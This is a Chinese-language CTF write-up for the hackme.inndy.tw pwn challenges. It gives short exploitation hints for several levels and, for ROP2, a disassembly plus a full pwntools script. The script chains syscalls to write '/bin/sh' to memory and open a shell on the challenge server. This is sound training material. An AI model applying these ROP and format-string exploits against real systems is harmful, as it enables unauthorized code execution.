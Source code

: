 ```yaml
---
title: Writeup::hackme.inndy.tw
date: 2023-10-17 21:12:04
tags: pwn
---
```


## catflag
用pwntools 送出指令，不要用ncat
## homework
仔細觀察組語，可以發現return address的對應index

利用OOB直接就可以解

## toooomuch
猜數字遊戲，隨便一個二分搜就有答案

## toooomuch2
簡單的ROP，先利用 fgets()把shellcode吃到bss之後跳上去

## ROP
利用ROPGadget 就串得出來，也可以用 pop rdi 優化chain

## ROP2
### 保護機制
NX, Partial RELRO
### 程式邏輯
#### main
```asm
┌ 146: int main (int32_t arg_4h);
│           ; var int32_t var_33h @ ebp-0x33
│           ; var int32_t var_2fh @ ebp-0x2f
│           ; var int32_t var_2bh @ ebp-0x2b
│           ; var int32_t var_27h @ ebp-0x27
│           ; var int32_t var_23h @ ebp-0x23
│           ; var int32_t var_1fh @ ebp-0x1f
│           ; var int32_t var_1bh @ ebp-0x1b
│           ; var int32_t var_17h @ ebp-0x17
│           ; var int32_t var_13h @ ebp-0x13
│           ; var int32_t var_fh @ ebp-0xf
│           ; var int32_t var_bh @ ebp-0xb
│           ; var int32_t var_9h @ ebp-0x9
│           ; var int32_t var_4h @ ebp-0x4
│           ; arg int32_t arg_4h @ esp+0x54
│           0x08048487      8d4c2404       lea ecx, dword [arg_4h]
│           0x0804848b      83e4f0         and esp, 0xfffffff0
│           0x0804848e      ff71fc         push dword [ecx - 4]
│           0x08048491      55             push ebp
│           0x08048492      89e5           mov ebp, esp
│           0x08048494      51             push ecx
│           0x08048495      83ec34         sub esp, 0x34
│           0x08048498      83ec0c         sub esp, 0xc
│           0x0804849b      6a1e           push 0x1e                   ; 30
│           0x0804849d      e85efeffff     call sym.imp.alarm
│           0x080484a2      83c410         add esp, 0x10
│           0x080484a5      c745cd43616e.  mov dword [var_33h], 0x206e6143 ; 'Can '
│           0x080484ac      c745d1796f75.  mov dword [var_2fh], 0x20756f79 ; 'you '
│           0x080484b3      c745d5736f6c.  mov dword [var_2bh], 0x766c6f73 ; 'solv'
│           0x080484ba      c745d9652074.  mov dword [var_27h], 0x68742065 ; 'e th'
│           0x080484c1      c745dd69733f.  mov dword [var_23h], 0xa3f7369
│           0x080484c8      c745e1476976.  mov dword [var_1fh], 0x65766947 ; 'Give'
│           0x080484cf      c745e5206d65.  mov dword [var_1bh], 0x20656d20 ; ' me '
│           0x080484d6      c745e9796f75.  mov dword [var_17h], 0x72756f79 ; 'your'
│           0x080484dd      c745ed20726f.  mov dword [var_13h], 0x706f7220 ; ' rop'
│           0x080484e4      c745f1636861.  mov dword [var_fh], 0x69616863 ; 'chai'
│           0x080484eb      66c745f56e3a   mov word [var_bh], 0x3a6e   ; 'n:'
│           0x080484f1      c645f700       mov byte [var_9h], 0
│           0x080484f5      6a2a           push 0x2a                   ; '*' ; 42
│           0x080484f7      8d45cd         lea eax, dword [var_33h]
│           0x080484fa      50             push eax
│           0x080484fb      6a01           push 1                      ; 1
│           0x080484fd      6a04           push 4                      ; 4
│           0x080484ff      e81cfeffff     call sym.imp.syscall
│           0x08048504      83c410         add esp, 0x10
│           0x08048507      e848ffffff     call sym.overflow
│           0x0804850c      b800000000     mov eax, 0
│           0x08048511      8b4dfc         mov ecx, dword [var_4h]
│           0x08048514      c9             leave
│           0x08048515      8d61fc         lea esp, dword [ecx - 4]
└           0x08048518      c3             ret
```
跟上一題是差不多的邏輯，但多了`syscall()`

也可以在`overflow()`找到漏洞

### 利用方式
由於有`syscall`, 可以構造任意system call, 而且因為是x86, 所以不用找pop gadget

在binary中找不到`/bin/sh`, 所以可以先構造syscall把`/bin/sh`讀到記憶體中, 再想辦法getshell
#### exploit:
```python
#!/usr/bin/env python2

from pwn import *
import pwnlib.elf

p = remote('hackme.inndy.tw', 7703)
e = ELF('./rop2')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(3) + p32(0)
payload += p32(e.bss()) + p32(8) # syscall(3, 0, Bss, 8)

p.sendline(payload)
p.send('/bin/sh\x00')

payload = 'A' * 16 + p32(e.symbols['syscall']) + p32(e.symbols['overflow']) + p32(0xb) + p32(e.bss())
payload += p32(0) + p32(0) # syscall(0xb, '/bin/sh', 0, 0)
p.sendline(payload)

p.interactive()
p.close()
```
### echo
用`fmtstr_payload()`把 `printf()` 改成 `system()`
讓程式接著跑，她就會自己跑到`printf(“/bin/sh”)` 了
### smashthestack
有開canary，但是仍可以利用 `__stack_chk_fail` 印出在記憶體中的flag

構造長一點的payload，一路蓋到 `__libc_argv[0]` 就好